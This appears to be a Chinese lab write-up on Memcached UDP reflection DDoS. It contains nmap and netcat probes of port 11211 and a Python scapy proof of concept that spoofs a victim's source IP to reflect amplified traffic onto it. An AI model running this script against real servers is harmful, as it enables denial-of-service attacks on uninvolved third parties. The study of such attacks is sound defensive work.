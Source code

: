 #### nmap扫描

Memcached服务默认端口是11211，可通过Nmap网络安全扫描工具扫描端口开放情况，验证运行Memcached服务的IP是否开放UDP 11211端口：

```bash
nmap 127.0.0.1 -p 11211 -sU -sS --script memcached-info
```

#### netcat探测

可通过Netcat网络实用工具连接端口测试，验证UDP 11211端口响应服务运行状态：

```shell
echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -q1 -u 127.0.0.1 11211
STAT pid 21357
STAT uptime 41557034
STAT time 1519734962
...
```

如果看到非空有内容输出的响应（如上所示），表示Memcached服务器容易受到攻击，特别是暴露在互联网上的主机。

#### PoC

由此编写一个漏洞探测利用的python脚本如下：

```python
import socket
UDP_IP = "127.0.0.1"
UDP_PORT = 11211
MESSAGE = '\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(MESSAGE, (UDP_IP, UDP_PORT))
data, addr = sock.recvfrom(1024)
sock.close()
if len(data) > len(MESSAGE): # vulnerable
    try:
        from scapy.layers.inet import IP, UDP
        from scapy.sendrecv import send
        TARGET_IP = "23.23.23.23"
        TARGET_PORT = 65534
        ip = IP(src=TARGET_IP, dst=UDP_IP)
        udp = UDP(sport=TARGET_PORT, dport=UDP_PORT)
        req = '\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'
        pck = ip/udp/req
        for i in range(50):
            send(pck)
    except Exception as e:
        print e
        exit()
```

脚本运行时用tcpdump+wireshark抓包，如图：

![memcached-wireshark](../../%E8%AF%BE%E4%BB%B6/%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%BD%91%E7%BB%9C/ddos_experiments/memcache_drdos/files_for_writeup/memcached-wireshark.png)

可以看到这里的源ip是脚本中伪造的23.23.23.23，从而将放大后的流量通过Memcached服务器反射到目标ip上，实现DRDoS。